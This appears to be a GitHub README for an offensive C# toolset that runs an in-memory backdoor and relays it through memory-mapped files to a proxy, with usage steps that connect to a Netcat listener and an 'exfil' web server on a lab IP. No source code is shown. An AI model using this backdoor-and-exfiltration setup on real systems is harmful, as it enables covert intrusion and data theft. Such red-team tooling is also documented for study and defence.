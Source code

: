 # NativePayload_MP
C# Memory Mapped File & Connection in-memory between Backdoor & Proxy Process
-----------------------


 NativePayload_MP.cs (old version, this code was as Mapper for working with NativePayload_MPAgent as backdoor in Memory only)
 
 usage: 
    
    step1: NativePayload_MPAgent.exe
    step2: NativePayload_MP.exe
    
--------------------------------------------    


 NativePayload_MP1.cs (this code is Mapper/Proxy tool for working with NativePayload_HTTP.cs as web Exfil-server tool) 
 
 usage: 
    
    step1: [win]                NativePayload_MPAgent.exe
    step2: [linux:192.168.56.1] NativePayload_HTTP.sh -exfilwebserver 80
    step3: [win]                NativePayload_MP1.exe 192.168.56.1 
    
 --------------------------------------------    
   

NativePayload_MP2.cs (this code is Mapper/Proxy tool for working with nc [Netcat]) 
 
 usage: 
    
    step1: [win]                NativePayload_MPAgent.exe
    step2: [linux:192.168.56.1] nc -lp 443
    step3: [win]                NativePayload_MP2.exe 192.168.56.1 443
--------------------------------------------    
    
NativePayload_MPAgent.cs (this code is our backdoor tool, working in memory only, without network connection) 
 
 usage: 
    
    step1: NativePayload_MPAgent.exe
   
--------------------------------------------    
    
Article [1]: https://www.linkedin.com/pulse/memory-mapping-file-connection-in-memory-between-damon-mohammadbagher/

Article [2]: file:///home/ubuntu/Documents/10-mar-2021/10mar2021x.html

Video:

------------------------------------------------
NativePayload_MP1.cs (this code is Mapper/Proxy tool for working with NativePayload_HTTP.cs as web Exfil-server tool) 
 
![](https://github.com/DamonMohammadbagher/NativePayload_MP/blob/main/Pics/1.png)

------------------------------------------------
NativePayload_MP.cs (old version, this code was as Mapper for working with NativePayload_MPAgent as backdoor in Memory only)

![](https://github.com/DamonMohammadbagher/NativePayload_MP/blob/main/Pics/2-W10.png)

------------------------------------------------
NativePayload_MP2.cs (this code is Mapper/Proxy tool for working with nc [Netcat]) 

![](https://github.com/DamonMohammadbagher/NativePayload_MP/blob/main/Pics/mp2-01.png)


